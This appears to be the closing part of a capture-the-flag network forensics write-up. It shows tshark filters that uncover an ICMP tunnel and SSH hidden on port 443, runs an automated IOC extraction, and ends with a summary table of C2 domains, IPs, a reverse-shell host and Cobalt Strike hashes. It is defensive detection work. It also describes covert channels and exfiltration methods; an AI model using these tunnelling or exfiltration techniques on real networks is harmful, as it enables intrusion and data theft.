
Standard ping payloads are tiny and predictable (64 bytes with the classic alphabet pattern on Linux, 32 static bytes on Windows). These packets were over 1000 bytes each.


Expanding the data field showed the first three bytes as `1f 8b 08` — the gzip magic number. No legitimate ping payload starts with a gzip header. Confirmed with TShark against the destination:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "icmp.type == 8 and frame.len > 100" -T fields -e frame.time -e ip.src -e ip.dst -e frame.len -e data.data | head -3
Nov 14, 2025 03:25:15.000000000 UTC    10.14.22.88    198.51.100.10    1042    1f8b08000000000000ff...
```

ICMP tunnel destination: `198.51.100.10`.

### SSH riding on port 443

Wireshark dissects by protocol behavior, not by port label, so hunting for the SSH-2.0 banner byte sequence regardless of port catches tunneled SSH even when it's dressed up as HTTPS traffic:

```bash
ubuntu@tryhackme:~/captures$ tshark -r investigation.pcap -Y "frame contains 53:53:48:2d:32:2e:30 and tcp.port != 22 and tcp.port != 2222" -T fields -e frame.time -e ip.src -e ip.dst -e tcp.srcport -e tcp.dstport
Nov 14, 2025 03:30:00.030000000    198.51.100.20    10.14.22.88    443    55555
Nov 14, 2025 03:30:00.050000000    10.14.22.88    198.51.100.20    55555    443
```

Two rows, one per direction of the banner exchange — server banner coming back on 443, client banner going out. That's a completed, functional SSH session tunneling over what perimeter rules almost certainly treat as "it's just HTTPS, let it through." Different destination IP (`198.51.100.20`) than the ICMP tunnel (`198.51.100.10`) too — operator split the covert channels across two hosts in the same /24, presumably to blunt a single-IP block from killing both channels at once.

### Automated IOC extraction

The room ships a wrapper script (`/home/ubuntu/scripts/extract_iocs.sh`) that runs all of the above field-extraction patterns in one pass and dumps a structured evidence folder — external IPs, HTTP hosts, TLS SNI, DNS queries, JA4 fingerprints, and hashed HTTP objects.

```bash
ubuntu@tryhackme:~$ cd /home/ubuntu/scripts/
ubuntu@tryhackme:~/scripts$ chmod +x extract_iocs.sh
ubuntu@tryhackme:~/scripts$ ./extract_iocs.sh
IOC extraction complete. Output in: /home/ubuntu/evidence/iocs

ubuntu@tryhackme:~/scripts$ wc -l /home/ubuntu/evidence/iocs/external_ips.txt
8 /home/ubuntu/evidence/iocs/external_ips.txt

ubuntu@tryhackme:~/scripts$ cat /home/ubuntu/evidence/iocs/external_ips.txt
185.213.154.201
194.165.16.56
194.165.16.78
198.51.100.10
198.51.100.20
203.0.113.50
203.0.113.51
8.8.8.8
```



**8 unique external IPs.** That single list covers the C2 host, the exfil destination, the reverse shell's secondary actor host, both tunnel destinations, the two redirect hosts, and — flagged for completeness rather than as a threat — Google's public DNS resolver, which is expected traffic but still shows up because the script isn't making judgment calls, just listing.

---

## Wrap-up

Walking back through it end to end: Zeek and Zui told me *that* something was happening — a scan, a beacon, an oversized transfer, some weird lateral movement. This room is what turned all of that into evidence I could actually hand off:

- The SYN scan and HTTP beacon confirmed as real, with exact counts (87 hosts scanned, 23 beacon check-ins)
- The C2 channel proven live by decoding an actual operator-issued command (`whoami`) straight out of a JSON response
- A cleartext FTP credential and a full interactive reverse shell transcript, including the exact `Compress-Archive` + `Invoke-WebRequest` combo used to exfil the Documents folder
- Two hashed artifacts (a Cobalt Strike dropper and the staging archive) cross-confirmed against a threat feed
- TLS handshake metadata (cert CN + JA4) proving the encrypted sessions belong to the same infrastructure as the plaintext beacon, without ever needing to decrypt anything
- Three separate covert channels (DNS tunnel, ICMP tunnel, SSH-over-443) caught purely by looking at packet structure instead of trusting port numbers
- A one-command IOC package ready to hand to detection engineering and threat intel

The big takeaway for me: logs are a summary of what a device decided was worth writing down. The PCAP is the only thing in this whole chain that can't lie, and every question in this room only had one real answer once I stopped guessing and just followed the stream.

**Indicators of Compromise (IOC) summary:**

| Type | Value |
|---|---|
| C2 IP | 194.165.16.56 |
| C2 domain | update.softpatch-cdn.com |
| C2 beacon URI | /api/v2/check |
| C2 User-Agent | `Mozilla/5.0 (compatible; MSIE 11.0; Windows NT 10.0)` |
| C2 JA4 | t13d040400_98dd3bb0ed34_34f36fd09b12 |
| Exfil destination | 185.213.154.201 |
| Dropper SHA256 | 4ec66c72e7d80620891118cb32206771ac37a227b6e77a2549b046748d8c234b (Cobalt Strike) |
| Staged archive SHA256 | d17a83cf82a3cf4e5b3891e8b0923d00b22181e3079624cec60ca105c0eaf369 |
| Secondary actor host (reverse shell) | 194.165.16.78:4444 |
| DNS tunnel parent domain | exfil.fastsync-cdn.net |
| ICMP tunnel destination | 198.51.100.10 |
| SSH-over-443 tunnel destination | 198.51.100.20 |
| Redirect/delivery hosts | 203.0.113.50, files.cdn-delivery.net |
